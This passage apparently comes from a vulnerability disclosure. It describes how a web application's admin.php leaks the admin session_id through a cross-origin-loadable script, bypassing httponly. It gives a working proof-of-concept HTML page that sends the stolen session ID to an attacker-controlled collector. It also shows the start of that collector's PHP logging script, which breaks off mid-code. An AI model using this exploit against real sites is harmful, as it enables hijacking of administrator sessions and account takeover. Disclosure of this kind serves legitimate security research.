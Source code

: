 ![4.png](./img/4.png)

Line 24 directly outputs the session_id to the file:

![5.png](./img/5.png)

In summary, the attacker only needs to construct the page and include the vulnerability url. Once the admin accesses the page, the attacker can obtain the admin's cookie, ignoring httponly!

poc.html:
```
<html>
<script src="http://127.0.0.1:8003/admin.php?c=js&ext=admin.plugin.js&_noCache=0.1560224709">
</script>
<script>
var crossoriginget = new XMLHttpRequest();
var url = 'http://127.0.0.1:8001/get_referer.php?cookie='+session_id;
crossoriginget.open('GET', url, true);
crossoriginget.send();
</script>
</html>
```

Accept the cookie at http://127.0.0.1:8001/get_referer.php, the content of get_referer.php is:
```
<?php
echo 1;
date_default_timezone_set('Asia/Shanghai');

$fh = fopen("referer.txt", "a");

$ip        = $_SERVER["REMOTE_ADDR"];
$filename  = $_SERVER['PHP_SELF'];
$parameter = $_SERVER["QUERY_STRING"];
$method    = $_SERVER['REQUEST_METHOD'];
$time      =  date('Y-m-d H:i:s',time());
$post      = '';
$get       = $filename.'?'.$parameter;
$others    = '**********************************************************************';  
if($method == 'GET')
{
```